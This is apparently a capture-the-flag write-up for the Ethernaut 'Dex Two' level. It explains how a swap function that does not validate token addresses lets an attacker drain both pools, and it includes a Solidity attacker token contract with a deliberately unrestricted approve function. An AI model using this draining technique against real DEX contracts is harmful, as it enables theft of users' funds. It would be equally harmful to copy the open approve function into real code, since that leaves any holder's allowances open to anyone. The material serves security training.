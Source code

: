 # Dex2 Ethernaut

## Goals

=> This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

=> You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

=> You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

### Hints

- How has the swap method been modified?

### Solution

- The weakness is in the swap method since it's not checking the from and to anymore we can send any ERC20 tokens to drain the contract we just need to deploy 2 contracts like below and swap from our newly created contract to the desired SwappableTokenTwo which will drain the Dex to zero

### Contract

```solidity
contract Hack is ERC20 {
    address private _dex;
    address public player;

    constructor(
        address dexInstance,
        string memory name,
        string memory symbol,
        uint initialSupply
    ) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
        player = msg.sender;
        _mint(dexInstance, 100);
        approve(dexInstance, 100);
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
